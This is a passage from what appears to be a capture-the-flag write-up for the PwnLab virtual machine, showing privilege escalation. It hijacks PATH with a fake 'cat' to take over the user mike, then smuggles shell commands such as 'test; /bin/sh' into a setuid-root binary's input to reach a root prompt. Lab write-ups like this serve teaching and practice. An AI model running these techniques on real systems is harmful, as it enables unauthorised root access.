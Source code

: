This meant that I could do the following:

```sh
kane@pwnlab:~$ echo "/bin/bash" > /tmp/cat
echo "/bin/bash" > /tmp/cat
kane@pwnlab:~$ export PATH="/tmp:$PATH"
export PATH="/tmp:$PATH"
kane@pwnlab:~$ chmod 777 /tmp/cat
chmod 777 /tmp/cat
kane@pwnlab:~$ ./msgmike
./msgmike
mike@pwnlab:~$ whoami
whoami
mike
```

Now that I had a shell for `mike`, I repeated the process of first checking my home directory. I found another similar file, `msg2root`. This file ran as root and seemed to echo my user input (it's very possible it did more but running `strings` on it crashed my vm...). If it handled my input as root, why not see if I could inject a second command to it? Turns out I could:

```sh
mike@pwnlab:/home/mike$ ls
ls
msg2root
mike@pwnlab:/home/mike$ file msg2root
file msg2root
msg2root: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=60bf769f8fbbfd406c047f698b55d2668fae14d3, not stripped
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: test
test
test
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: test; /bin/bash
test; /bin/bash
test
bash-4.3$ whoami
whoami
mike
bash-4.3$ ./msg2root
./msg2root
Message for root: another test || /bin/bash
another test || /bin/bash
another test
bash-4.3$ whoami
whoami
mike
bash-4.3$ ./msg2root
./msg2root
Message for root: a third test && /bin/bash
a third test && /bin/bash
a third test
bash-4.3$ whoami
whoami
mike
bash-4.3$ ./msg2root
./msg2root
Message for root: test; /bin/sh
test; /bin/sh
test
# whoami
```